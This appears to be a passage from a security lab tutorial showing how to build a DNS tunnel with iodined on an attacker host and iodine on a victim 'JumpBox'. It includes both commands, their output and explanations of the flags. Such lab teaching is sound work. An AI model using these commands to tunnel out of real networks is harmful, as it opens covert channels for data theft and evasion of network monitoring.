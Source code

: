 Let's follow the steps to create a DNS tunnel. First, let's run the server-side application (iodined) as follows,

- Running iodined Server

```shell
thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com                                                                                                                                                                     
Opened dns0
Setting IP of dns0 to 10.1.1.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain att.tunnel.com
	    
```

Let's explain the previous command a bit more:

- Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
- The -f argument is to run the server in the foreground.
- The -c argument is to skip checking the client IP address and port for each DNS request.
- The -P argument is to set a password for authentication.
-  The 10.1.1.1/24 argument is to set the network IP for the new network  interface (dns0). The IP address of the server will be 10.1.1.1 and the  client 10.1.1.2.
- att.tunnel.com is the nameserver we previously set.

On the JumpBox machine, we need to connect to the server-side application. To do so, we need to execute the following:

- Victim Connects to the Server

```shell
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com                                                                                                           
Opened dns0                                                                                                                                                     
Opened IPv4 UDP socket                                                                                                                                          
Sending DNS queries for att.tunnel.com to 127.0.0.11                                                                                                            
Autodetecting DNS query type (use -T to override).                                                                                                              
Using DNS type NULL queries                                                                                                                                     
Version ok, both using protocol v 0x00000502. You are user #0                                                                                                   
Setting IP of dns0 to 10.1.1.2                                                                                                                                  
Setting MTU of dns0 to 1130                                                                                                                                     
Server tunnel IP is 10.1.1.1                                                                                                                                    
Testing raw UDP data to the server (skip with -r)                                                                                                               
Server is at 172.20.0.200, trying raw login: OK                                                                                                                 
Sending raw traffic directly to 172.20.0.200                                                                                                                    
Connection setup complete, transmitting data.
	    
```
